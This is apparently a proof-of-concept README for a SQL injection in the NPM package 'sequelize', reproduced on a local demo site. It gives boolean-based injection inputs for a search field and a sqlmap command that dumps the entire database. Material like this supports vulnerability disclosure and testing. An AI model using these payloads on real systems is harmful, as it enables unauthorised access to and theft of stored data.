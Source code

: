 # POC for Vulnerability in NPM package `sequelize`

- **Pull Request**: [#5167](https://github.com/sequelize/sequelize/pull/5167)
- **Package Repository**: [Sequelize GitHub](https://github.com/sequelize/sequelize)
- **Package Manager**: [NPM Sequelize](https://www.npmjs.com/package/sequelize)

## Steps to Reproduce:

1. Install the local dependencies: ```npm install```
2. Start the website locally: ```node index.js```
3. In the browser, navigate to ```http://localhost:3000```
4. In the search functionality, input `test1` for the username, and `1 AND 7992=7992`
5. See that it display 1 user is found.
6. In the search functionality, input `test1` for the username, and `1 AND 7992=0`
7. See that it displays 0 user is found. This means that the boolean condition is being executed.
8. Further injection can be done to retrieve the whole DB content. For example, using `sqlmap`: `sqlmap -r req -p limit --dbms=SQLite --dump --threads 10 --flush-session`